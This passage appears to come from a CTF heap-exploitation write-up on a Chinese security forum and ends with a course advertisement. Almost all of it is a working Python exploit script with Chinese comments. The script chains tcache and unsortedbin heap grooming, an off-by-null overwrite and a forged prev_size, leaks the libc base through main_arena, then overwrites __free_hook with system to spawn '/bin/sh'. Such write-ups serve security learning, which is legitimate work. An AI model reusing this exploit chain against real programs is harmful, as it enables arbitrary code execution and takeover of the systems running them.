chunk60_addr(0x****ff70)`  `free(``60``)``#0xe8     #59     #60 #0x****ff70`  `#构造preChunk的fd和bk------------------------`      `free(``98``)``#0x98     #53     #98`    `#---------------add back`  `claim(``0x88``)` `#102~108`  `claim(``0x98``)` `#109~115`  `claim(``0xe8``)` `#116~122`  `#---------------add back`    `#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块`  `#之后依据大小适配原则将60分配回来给123`  `add_malloc(``0xd8``,``'\x00'``)``# 0x32        #123 0x****ff70,实际大小为0xf0`  `#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中`  `add_malloc(``0xb8``,``'\x00'``)``# 0x35          #124 0x****fa60`    `for` `i` `in` `range``(``0``,``7``):``#0x88`  `free(i``+``1``)`  `#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块`  `free(``100``)` `#55     #100`    `claim(``0x88``)` `#125~131`    `#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中`  `add_malloc(``0xb8``,``'\x00'``)``#0x36     #132     0x****fb20`  `add_malloc(``0x98``,``'\x00'``)``#0x37      #133    0x****f900`  `add_malloc(``0x38``,``'\x00'``)``#0x3b     #134     0x****fbe0`      `#修复FD->bk和BK->fd-----------------------------`  `#------tcache`  `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `for` `i` `in` `range``(``7``,``14``):``#0x98`  `free(i``+``1``)`  `for` `i` `in` `range``(``21``,``28``):``#0xb8`  `free(i``+``1``)`  `#------tcache`    `#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)`  `free(``133``)` `#0x37     #133     0x****f900`  `free(``132``)` `#0x36      #132     0x****fb20`  `#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)`  `free(``123``)` `#0x32     #123      0x****ff70`  `#修复FD->bk和BK->fd-----------------------------`      `free(``59``)` `#58        #59        0x****fed0`  `#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)`    `claim(``0x98``)` `#135~141`  `claim(``0xb8``)` `#142~148`  `claim(``0xe8``)` `#149~155`    `add_malloc(``0xc8``,``'\x00'``)` `#0x32         #156     0x****fed0`  `add_malloc(``0xb8``,``'\x00'``)` `#0x36         #157     0x****fb20`  `add_malloc(``0xb8``,``'\x00'``)` `#0x37          #158    0x****ffa0`  `add_malloc(``0x98``,``'\x00'``)` `#58          #159     0x****f900`    `#--top_chunk`  `add_malloc(``0x98``,``'\x00'``)` `#0x3d             #160`  `add_malloc(``0x98``,``'\x00'``)` `#0x3e             #161`  `add_malloc(``0x18``,``'\x00'``)` `#0x3f             #162`    `#------tcache`  `for` `i` `in` `range``(``7``,``14``):``#0x98`  `free(i``+``1``)`  `for` `i` `in` `range``(``21``,``28``):``#0xb8`  `free(i``+``1``)`  `#------tcache`      `free(``161``)` `#0x98     #0x3e         #161`  `free(``159``)` `#0x98     #58          #159     0x****f900`  `free(``157``)` `#0xb8     #0x36         #157`  `free(``50``)` `#0x98     #49         #50     0x****f860`  `#其中159和50合并为0x140大小的块放入unsortedbin中`  `#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120`    `claim(``0xb8``)` `#163~169`  `claim(``0x98``)` `#170~176`  `#----------------------------------------------------`  `add_malloc(``0xb8``,``'\x00'``)` `#49     #177`  `add_malloc(``0x98``,``'\x00'``)` `#0x36      #178`    `#切割0x140的块`  `add_malloc(``0xc8``,``'\x00'``)``#0x3a     #179     0x****f860`  `add_malloc(``0x68``,``'\x00'``)``#0x3e       #180`      `partial_null_write` `=` `0x98``*``'b'`  `partial_null_write` `+``=` `p64(``0xf1``)`  `edit(``156``,``0x98``+``0x8``+``0x1``,partial_null_write``+``'\x00'``)` `#0x32      #156`    `partial_null_write` `=` `0xa8``*``'c'`  `edit(``179``,``0xa8``+``0x1``,partial_null_write` `+` `'\x00'``)` `#0x3a         #179`    `#伪造pre_size`  `fake_chunk_size` `=` `0x98``*``'d'`  `fake_chunk_size` `+``=` `p64(``0x2e1``)`  `edit(``124``,``0x98``+``0x8``,fake_chunk_size)` `#0x35     #124`      `for` `i` `in` `range``(``42``,``49``):``#0xe8`  `free(i``+``1``)`  `free(``58``)`      `#pull-down the unsortedbinChunk to chunk134 and leak main_arena`  `edit(``134``,``0x8``,``"e"``*``8``)` `#0x3b #134`  `add_malloc(``0xd8``,``'\x00'``)` `#181`  `show(``134``)`    `libc_base` `=` `u64Leakbase(unsortedBinIdx` `+` `libc.sym[``'__malloc_hook'``]` `+` `0x10``)`  `lg(``'libc_base'``,libc_base)`      `#---------------------------------------------------------------------------------`  `claim(``0xe8``)` `#182~188`  `add_malloc(``0xe8``,``'\x00'``)` `#0x40     #189`  `free(``44``)` `#0x2b     #44`  `free(``134``)` `#0x3b     #134`  `edit(``189``,``0x8``,p64(libc_base``+``libc.sym[``'__free_hook'``]``-``8``))` `#0x40     #189`  `add_malloc(``0xe8``,``'\x00'``)` `#190`  `add_malloc(``0xe8``,``'\x00'``)` `#191`    `edit(``191``,``0x10``,``"/bin/sh\x00"``+``p64(libc_base``+``libc.sym[``'system'``]))` `#191`  `free(``191``)`  `it()`  `#--------------------------------------------------------------` |


[冰与火的战歌：Windows内核攻防实战高级班！从零到实战，融合AI与Windows内核攻防全技术栈，打造具备自动化能力的内核开发高手。](https://www.kanxue.com/book-section_list-227.htm)
